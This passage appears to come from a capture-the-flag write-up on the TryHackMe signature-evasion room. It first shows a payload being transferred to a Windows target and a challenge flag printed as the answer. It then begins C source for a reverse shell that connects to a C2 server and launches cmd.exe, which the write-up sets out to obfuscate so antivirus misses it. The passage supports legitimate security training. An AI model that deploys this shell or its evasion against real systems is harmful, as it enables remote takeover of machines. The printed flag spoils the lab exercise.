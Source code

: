 And finally, retreive the challenge-2.exe file on the windows machine (launch a "python3 -m http.server" command on the the attacker machine) and submit the file to get the flag :

![Upload payload](/images/thm/signatureevasion/signatureevasion_4.png)
_Upload payload_

![Flag](/images/thm/signatureevasion/signatureevasion_5.png)
_Flag_

Answer : THM{N0_1MP0r75_F0r_Y0U}

## TASK 7 : Putting It All Together
### What is the flag found on the Administrator desktop? 
We need to obfuscate the foolowing code :

```c
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024

void RunShell(char* C2Server, int C2Port) {
        SOCKET mySocket;
        struct sockaddr_in addr;
        WSADATA version;
        WSAStartup(MAKEWORD(2,2), &version);
        mySocket = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        addr.sin_family = AF_INET;

        addr.sin_addr.s_addr = inet_addr(C2Server);
        addr.sin_port = htons(C2Port);

        if (WSAConnect(mySocket, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
            closesocket(mySocket);
            WSACleanup();
        } else {
            printf("Connected to %s:%d\\n", C2Server, C2Port);

            char Process[] = "cmd.exe";
            STARTUPINFO sinfo;
            PROCESS_INFORMATION pinfo;
            memset(&sinfo, 0, sizeof(sinfo));
```